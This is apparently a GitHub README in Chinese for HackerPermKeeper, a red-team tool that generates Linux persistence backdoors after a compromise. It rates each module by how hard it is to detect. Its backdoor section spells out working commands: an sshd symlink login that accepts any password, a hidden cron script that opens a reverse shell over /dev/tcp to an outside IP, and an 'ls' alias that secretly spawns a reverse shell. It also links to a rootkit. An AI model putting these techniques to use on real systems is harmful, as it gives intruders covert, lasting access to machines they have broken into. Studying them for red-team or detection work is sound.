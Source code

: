 # :lock:	HackerPermKeeper  
### 黑客权限保持者
<br/><br/>
  <p align="center">
    <a href="https://www.one-fox.cn/">
      <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%AE%89%E5%85%A8%E5%9B%A2%E9%98%9F-One--fox-pink" />
    </a>
    <a href="https://taoyuan.cool/">
      <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%8D%9A%E5%AE%A2-taoyuan.cool-blue" />
    </a>
    <a href="https://taoyuan.cool/">
      <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E4%BD%9C%E8%80%85-%E5%BC%B1%E9%B8%A1-red" />
    </a>
    <img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-black">
    <img src="https://badgen.net/github/stars/ytMuCheng/HackerPermKeeper/?icon=github&color=black">
    <img src="https://badgen.net/github/issues/ytMuCheng/HackerPermKeeper">
    <img src="https://img.shields.io/badge/python%E7%89%88%E6%9C%AC-3_and_2-green">
</p>




通过渗透拿到权限之后，为了不让权限丢失，都会进行权限维持，而在进行权限维持的时候，红队需要花费大量的时候，来验证是否合适，因此在这款工具就诞生 HackerPermKeeper[黑客权限保持者] 
<br/>
查看下面的表格可以知道生成的权限维持文件可以运行的python版本，但是这个项目本身是python3运行的

| :lock:权限维持模块                 | centos | Ubuntu | 推荐指数 | 备注                                                         | py2 | py3 |
| :--------------------------- | ------ | ------ | -------- | ------------------------------------------------------------ | ---------------------------- | ---------------------------- |
| OpenSSH后门万能密码&记录密码 |   :x:      |:heavy_check_mark:	    |:star:	        | 此后门需要很老的内核版本，而且需要很多依赖环境               | :x: | :heavy_check_mark: |
| PAM后门                      | :x:     | :x:     | :star:	        | 此后门需要很老的内核版本，而且需要很多依赖环境               | :x: | :x: |
| SSH软链接                    | :heavy_check_mark:	    | :heavy_check_mark:	   | :star:	:star:	       | 容易被发现                                                   | :heavy_check_mark: | :heavy_check_mark: |
| ssh公私密钥                  | :heavy_check_mark:	    | :heavy_check_mark:	    | :star:	:star:	:star:	:star:	:star:	    | 发现程度很难，参考了挖矿病毒                                 | :heavy_check_mark: | :heavy_check_mark: |
| 后门帐号                     | :heavy_check_mark:	    | :heavy_check_mark:	    | :star:	:star:	:star:	      | 用命令添加账户，不会创建用户home目录[有一个是直接指向root目录] | :heavy_check_mark: | :heavy_check_mark: |
| crontab计划任务              | :heavy_check_mark:	   | :heavy_check_mark:	   | :star:	:star:	:star:	:star:	     | 难以发现，通过执行计划任务                                   | :heavy_check_mark: | :heavy_check_mark: |
| Strace后门                   |:heavy_check_mark:	    | :heavy_check_mark:	    | :star:	:star:	       | 键盘记录的后门                                               | :heavy_check_mark: | :heavy_check_mark: |
| Alias后门                    | :heavy_check_mark:	    | :heavy_check_mark:	   | :star:	:star:	:star:	:star:	     | 别名后门，难以发现，但是需要用户去执行命令                   | :heavy_check_mark: | :heavy_check_mark: |
| Rootkit后门                  | :x:     | :x:    | :star:	:star:	:star:	      | 难以发现，但是安装复杂，而且指定内核版本                     | :x: | :x: |


## :rocket:快速使用
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/6b71f9b8-cbb4-42e3-8d1d-3a30e37163b8)

```
python3运行安全此项目，但是运行权限维持模块脚本请看上面的表格
安装依赖
pip install -r requirements.txt
```
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/1d4af51c-dfbe-484e-b70f-009214a4635c)

```
快速判断目标机器适合的权限维持模块，运行 /check/ 目录下的check.py文件[这个不需要任何依赖环境，python3和python2都支持]
python check.py
```
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/db6bb1ad-4b7d-44d8-b0bd-bd1cca3e56a7)

```
查看权限维持模块信息
python main.py -c 1
```
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/6eb5f2c6-9870-4988-a2a8-67a8df71c0e2)
```
查看权限维持模详细块信息
python main.py -c 2
```
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/5937624c-b75b-4b51-a197-118b5a14f393)

```
使用此项目生成权限维持脚本[在这之前，请先运行check.py脚本判断出目标机器适合什么类型权限维持的脚本]
python main.py -m 1   #选择模块
```
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/6a816d82-201d-449d-b731-c0bd0d61232f)
```
有的生成的脚本文件。需要在生成之后进行手动修改
比如：修改反弹shellip以及端口，后门用户密码，ssh密钥密码，ssh密钥等[此缺陷将会在第二个版本修复]
生成的文件会在payloads目录下产生
```
![image](https://github.com/ytMuCheng/HackerPermKeeper/assets/79234113/9c145fa7-01a9-45e6-bde3-1ecb973f16e7)

使用视频：https://www.bilibili.com/video/BV1fV411N7Qc/


## :triangular_flag_on_post:	常见后门介绍
```
OpenSSH后门万能密码&记录密码（这个需要依赖环境），就是把对方的门换个锁，但是原来的钥匙也可以使用
发现程度：||

PAM后门，PAM是一个Linux登录验证的认证服务，修改其中关于ssh登录的验证，添加一个万能密码，已经记录的账号密码位置（类似把对方房间内有内鬼）
发现程度：||


SSH软链接
cat /etc/ssh/sshd_config|grep UsePAM
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
ssh root@xx.xx.xx.xx -p 8888 任意密码登录即可
发现程度：||||||


公私钥
使用密钥进行登录
发现程度：||||||


后门帐号
使用命令添加账号
发现程度：||||||


crontab后计划任务
1、编辑后门反弹
vim /etc/.111.sh

#!/bin/bash
sh -i >& /dev/tcp/192.168.86.137/3434 0>&1

chmod +x /etc/.111.sh

2、添加定时任务
vim /etc/crontab
*/1 * * * * root /etc/.1111.sh
发现程度：||||||


Strace后门
strace是一个动态跟踪工具，它可以跟踪系统调用的执行。
我们可以把他当成一个键盘记录的后门，来扩大我们的信息收集范围
可以记录ssh明文和密钥（登录的）和Rootkit配合一起
发现程度：||||

命令自定义-Alias后门
alias命令的功能：为命令设置别名
alias ls='alerts(){ ls $* --color=auto;bash -i >& /dev/tcp/192.168.86.137/3333 0>&1; };alerts'
执行ls就会反弹shell
持久化+隐藏：重启依旧生效
发现程度：||||

Rootkit后门
https://github.com/f0rb1dd3n/Reptile/releases/
Rootkit是一种特殊的恶意软件，它的功能是在安装目标上隐藏自身及指定的文件、进程和网络链接等信息，比较多见到的是Rootkit一般都和木马、后门等其他恶意程序结合使用。
发现程度：||
但是使用工具进行检测出来情况很大，建议看代码，手动编写此工具（难度很大）


|||||  越多，越容易发发现
||        越少，越难发现，但是部署起来，需要的依赖很多

```
<br/><br/>
## :triangular_flag_on_post:	提交问题
有问题请提交issues<br/>
<a href="https://github.com/ytMuCheng/HackerPermKeeper/issues"><img src="https://badgen.net/github/issues/ytMuCheng/HackerPermKeeper"></a>
<br/>
加我微信进开发者微信群聊 
<br/><img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-green">
<br/><br/>

## :star2:Stargazers over time [![Stargazers over time](https://starchart.cc/RuoJi6/HackerPermKeeper.svg)](https://starchart.cc/RuoJi6/HackerPermKeeper)




<a href="https://github.com/ytMuCheng">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api?username=RuoJi6"/>
</a>
<a href="https://github.com/ytMuCheng/HackerPermKeeper/">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api/top-langs?username=RuoJi6&layout=compact&langs_count=8&card_width=320" />
</a>

